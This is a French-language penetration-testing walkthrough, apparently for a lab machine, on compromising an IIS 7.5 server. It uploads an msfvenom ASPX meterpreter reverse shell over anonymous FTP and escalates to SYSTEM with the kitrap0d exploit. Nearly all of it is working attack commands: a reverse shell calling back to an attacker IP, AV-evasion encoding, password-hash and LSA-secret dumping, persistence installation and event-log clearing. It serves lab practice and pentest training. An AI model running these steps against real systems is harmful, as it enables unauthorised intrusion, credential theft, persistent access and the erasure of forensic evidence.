

Ce document détaille la procédure d'exploitation d'un serveur web **IIS** via un accès **FTP** pour obtenir un accès initial, suivi d'une élévation de privilèges locale via **Metasploit**.



## Scan Target

```bash
nmap -sV -T4 -p- 10.10.10.5
```

## Vulnerability Assessment

Avant l'exploitation, il est crucial d'identifier les vulnérabilités potentielles sur le service **IIS** et le système d'exploitation sous-jacent.

| Service | Version | Vulnérabilité potentielle |
| :--- | :--- | :--- |
| Microsoft IIS | 7.5 | WebDAV, Upload non restreint |
| FTP | Microsoft FTP | Accès anonyme, exécution de code |

## FTP Access Check

```bash
ftp 10.10.10.5
# Login: anonymous
```

## Generate ASPX Reverse Shell

> [!warning] Nécessité d'encoder le payload pour contourner les signatures basiques
> L'utilisation d'encodage peut être requise si le payload est détecté par les solutions de sécurité.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

## Upload & Trigger Payload

> [!danger] Vérifier les règles de pare-feu/AV avant l'exécution
> Assurez-vous que le trafic sur le port d'écoute n'est pas bloqué par un pare-feu local ou distant.

1. Téléverser `reverse_shell.aspx` sur le serveur **FTP**.
2. Accéder à `http://10.10.10.5/reverse_shell.aspx` pour exécuter le script.

## Start Listener in Metasploit

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 1337
run
```

## Confirm Session

```bash
getuid
# Sortie attendue : IIS APPPOOL\Web
```

## Manual Privilege Escalation Checks

Avant d'utiliser des exploits automatisés, effectuer une énumération manuelle pour identifier les vecteurs de privilèges :

```bash
# Vérification des privilèges actuels
whoami /priv

# Vérification des correctifs installés
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Recherche de services mal configurés (ex: chemins non quotés)
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

## Run Local Exploit Suggester

```bash
search local_exploit_suggester
use post/multi/recon/local_exploit_suggester
set SESSION 2
run
```

## Choose & Run Exploit

> [!warning] Risque de plantage du service IIS lors de l'exécution de l'exploit local
> L'exploitation locale peut provoquer une instabilité du service web.

```bash
search kitrap0d
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 2
set LHOST tun0
set LPORT 1338
run
```

## Confirm SYSTEM Access

```bash
getuid
# Sortie attendue : NT AUTHORITY\SYSTEM
```

## Post-Exploitation

> [!tip] Importance du nettoyage des fichiers déposés pour l'empreinte forensique
> Il est recommandé de supprimer les fichiers temporaires après l'obtention des accès.

Extraction des données sensibles :

```bash
hashdump
lsa_dump_sam
lsa_dump_secrets
```

## Persistence

Pour maintenir l'accès après un redémarrage du système, installer un service persistant via **Meterpreter** :

```bash
run persistence -X -i 10 -p 4444 -r 10.10.14.5
```

## Evidence Collection

Collecter les preuves nécessaires pour le rapport de pentest :

```bash
# Capture d'écran de la session
screenshot

# Récupération des fichiers de configuration IIS
download C:\\inetpub\\wwwroot\\web.config
```

## Cleanup

Supprimer les traces de l'intrusion pour respecter les bonnes pratiques de sécurité :

```bash
# Suppression du shell web
rm C:\\inetpub\\wwwroot\\reverse_shell.aspx

# Nettoyage des logs (si autorisé dans le périmètre)
clearev
```

## Notes techniques

*   Vérifier que le listener est actif avant de déclencher le payload.
*   Si la session meurt de manière inattendue, utiliser un payload encodé :

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=... LPORT=... -e x86/shikata_ga_nai -i 5 -f aspx > shell.aspx
```

*   Configuration réseau : S'assurer que l'interface **tun0** est correctement configurée pour le retour de connexion.
*   Sujets liés : [[Payloads]], [[Reverse Shell]], [[Windows]], [[Active Directory]], [[Enumeration]], [[Web]], [[Webshells]].